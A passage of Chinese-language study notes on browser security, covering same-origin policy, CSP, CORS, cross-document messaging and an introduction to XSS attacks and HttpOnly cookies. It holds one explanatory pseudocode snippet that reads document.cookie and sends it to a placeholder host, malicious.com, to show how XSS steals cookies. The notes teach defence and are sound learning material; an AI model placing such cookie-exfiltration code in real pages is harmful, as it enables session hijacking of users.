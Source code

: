             3. 比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。
         2. 所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题
            1. 之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持
               1. 劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。
               2. 比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码：
               3. ![](./img/笔记11/插入JavaScript代码.webp)
               4. 当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中
               5. 当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。
            2. 除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器
               1. 具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器
               2. 如下面这段伪代码：
                  ```
                  function onClick(){
                    let url = `http://malicious.com?cookie = ${document.cookie}`
                    open(url)
                  }
                  onClick()
                  ```
                  1. 在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。
            3. 以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP
               1. CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码
               2. 通过这些手段就可以大大减少 XSS 攻击。
      3. 跨域资源共享和跨文档消息机制
         1. 默认情况下，如果打开极客邦的官网页面，在官网页面中通过 XMLHttpRequest 或者 Fetch 来请求 InfoQ 中的资源，这时同源策略会阻止其向 InfoQ 发出请求，这样会大大制约我们的生产力。
            1. 为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。
         2. 在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵 DOM
            1. 不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制
            2. 可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信
2. 跨站脚本攻击（XSS）：为什么Cookie中有HttpOnly属性？
   1. 序言
      1. 通过上篇文章的介绍，我们知道了同源策略可以隔离各个站点之间的 DOM 交互、页面数据和网络通信，虽然严格的同源策略会带来更多的安全，但是也束缚了 Web
      2. 这就需要在安全和自由之间找到一个平衡点，所以我们默认页面中可以引用任意第三方资源，然后又引入 CSP 策略来加以限制
      3. 默认 XMLHttpRequest 和 Fetch 不能跨站请求资源，然后又通过 CORS 策略来支持其跨域。
      4. 不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 XSS 攻击。
   2. 什么是 XSS 攻击
      1. XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本
         1. XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
         2. 最开始的时候，这种攻击是通过跨域来实现的，所以叫“跨域脚本”
            1. 但是发展到现在，往 HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今
      2. 当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限
      3. 如果页面被注入了恶意 JavaScript 脚本，恶意脚本都能做哪些事情。
         1. 可以窃取 Cookie 信息
            1. 恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器
            2. 恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。